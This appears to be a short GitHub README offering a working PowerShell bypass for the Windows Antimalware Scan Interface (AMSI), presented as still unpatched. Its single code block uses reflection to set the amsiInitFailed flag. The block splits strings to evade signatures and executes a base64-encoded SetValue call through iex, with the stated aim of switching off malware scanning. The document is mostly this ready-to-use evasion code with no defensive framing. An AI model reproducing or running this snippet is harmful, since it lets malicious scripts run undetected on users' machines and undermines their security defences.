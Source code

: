 # AmsiBypass
List of Windows AMSI bypasses that have not been patched.

# Works as of 8/19/2022 - any way to break up the original command will work since windows sucks
```
$data = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static');
$array = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("JGRhdGEuU2V0VmFsdWUoJG51bGwsJHRydWUp")); iex $array
```
